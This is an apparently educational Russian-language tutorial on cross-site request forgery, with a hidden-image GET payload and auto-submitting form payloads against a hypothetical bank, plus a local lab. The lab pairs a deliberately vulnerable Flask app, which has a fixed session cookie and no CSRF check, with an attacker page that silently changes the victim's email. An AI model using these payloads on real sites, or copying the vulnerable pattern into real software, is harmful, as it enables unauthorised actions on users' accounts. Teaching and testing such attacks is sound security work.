 
## 🔥 Что делает злоумышленник при атаке CSRF?

### 📌 Цель:

Выполнить **легальный запрос от имени жертвы** (например, перевести деньги, изменить email, удалить профиль), используя **автоматически отправляемую куку** авторизации (`sessionid`).

---

## 🔧 Условия атаки:

1. Уязвимый сайт **использует авторизацию через куки** (например, Flask или Django).
2. **Нет проверки**, что запрос пришёл именно от «родного» сайта (отсутствует CSRF-токен, заголовок Origin не проверяется).
3. Пользователь уже **авторизован в уязвимом сайте** (в браузере есть кука).

---

## 🎭 Сценарий атаки: простой пример

Допустим, есть сайт банка `https://mybank.com`, и у него есть **GET-запрос**:

```
https://mybank.com/transfer?to=hacker&amount=10000
```

Банк принимает такие запросы **без проверки токена**.

---

### 💥 Что делает злоумышленник:

Он размещает на **своём сайте** (например, `hacker-site.com`) следующий код:

```html
<html>
  <body>
    <h1>Подарки тут!</h1>
    <img src="https://mybank.com/transfer?to=hacker&amount=10000" style="display:none;">
  </body>
</html>
```

📌 **Что происходит:**

- Пользователь, уже авторизованный на `mybank.com`, открывает `hacker-site.com`.
- **Браузер видит тег `<img>` и делает запрос** на `https://mybank.com/...`.
- Кука сессии (`sessionid=abc123`) **автоматически прикрепляется** к запросу браузером.
- Сервер думает, что это действие самого пользователя — и выполняет перевод.
    

---

## 🔄 Вариант с `POST` (через `form` и `JavaScript`)

```html
<form action="https://mybank.com/change-email" method="POST" id="csrfForm">
  <input type="hidden" name="email" value="hacker@mail.com">
</form>

<script>
  document.getElementById("csrfForm").submit();
</script>
```

- Такой код можно внедрить в `<iframe>` или скрытый `<div>`, и пользователь ничего не заметит.
- Браузер отправит `POST`-запрос с кукой → сервер примет, подумает, что это пользователь.

---

## 🧠 Почему это работает?

Потому что:

- **Кука отправляется автоматически** браузером к домену `mybank.com`.
- Сервер **не проверяет источник** (откуда пришёл запрос).
- Нет CSRF-защиты (например, токена или флага SameSite).

---

## 📌 Что можно атаковать?

- Перевод средств
- Смена email или пароля
- Удаление аккаунта
- Отправка сообщений, комментариев
- Публикация на форумах от имени жертвы


1. Уязвимый сайт (`bank-app`) — простой Flask-сервер с авторизацией через куки.
2. Сайт злоумышленника (`attacker-site`) — обычный HTML-файл с CSRF-атакой.
   
---

## 🛠 1. Уязвимый сайт (Flask)

Сохрани это в `bank_app.py` и запусти.

```python
from flask import Flask, request, make_response, redirect

app = Flask(__name__)

# "База данных" пользователя
user_data = {"username": "Alice", "balance": 1000, "email": "alice@example.com"}

@app.route("/")
def index():
    session_id = request.cookies.get("sessionid")
    if session_id == "abc123":
        return f"""
        <h1>Добро пожаловать, {user_data['username']}!</h1>
        <p>Баланс: ${user_data['balance']}</p>
        <p>Email: {user_data['email']}</p>
        <a href='/change-email-form'>Изменить email</a>
        """
    else:
        resp = make_response("<p>Вход выполнен</p><a href='/'>Перейти на главную</a>")
        resp.set_cookie("sessionid", "abc123")
        return resp

@app.route("/change-email", methods=["POST"])
def change_email():
    email = request.form.get("email")
    user_data["email"] = email
    return f"Email изменён на: {email}"

@app.route("/change-email-form")
def form():
    return """
    <form method="POST" action="/change-email">
        <input name="email" value="alice@example.com">
        <button>Изменить</button>
    </form>
    """
```

📌 **Как работает:**

- При первом заходе на `/` устанавливается кука `sessionid=abc123`.
- Можно изменить email через форму (`/change-email`).
- **Нет защиты от CSRF.**

---

## 💣 2. Сайт злоумышленника (`attacker.html`)

Создай файл `attacker.html`:

```html
<!DOCTYPE html>
<html>
  <head><title>Сюрприз!</title></head>
  <body>
    <h1>Секретный подарок! Просто подожди…</h1>

    <form action="http://localhost:5000/change-email" method="POST" id="csrfForm">
      <input type="hidden" name="email" value="hacker@evil.com">
    </form>

    <script>
      document.getElementById("csrfForm").submit();
    </script>
  </body>
</html>
```

📌 Это имитирует вредоносный сайт, отправляющий `POST`-запрос на банк.

---

## 🧪 Как протестировать:

1. Запусти Flask-сервер:
    ```bash
    python bank_app.py
    ```
2. Перейди в браузере на [http://localhost:5000/](http://localhost:5000/)  
    — это "банк", и ты залогинишься (кука установится автоматически).
3. Открой `attacker.html` **в этом же браузере** (двойной клик, откроется как файл).
4. Через секунду будет отправлен запрос, и email пользователя изменится на `hacker@evil.com`.
5. Перейди снова на [http://localhost:5000/](http://localhost:5000/)  
    — увидишь, что email изменился, **хотя ты не делал этого вручную**.

---

## 🧠 Что это показывает?

- Браузер **автоматически отправил куку `sessionid`**, хотя ты был на другом сайте.
- **Запрос был принят сервером** — ведь у него нет защиты.
- **Email был изменён без ведома пользователя.**
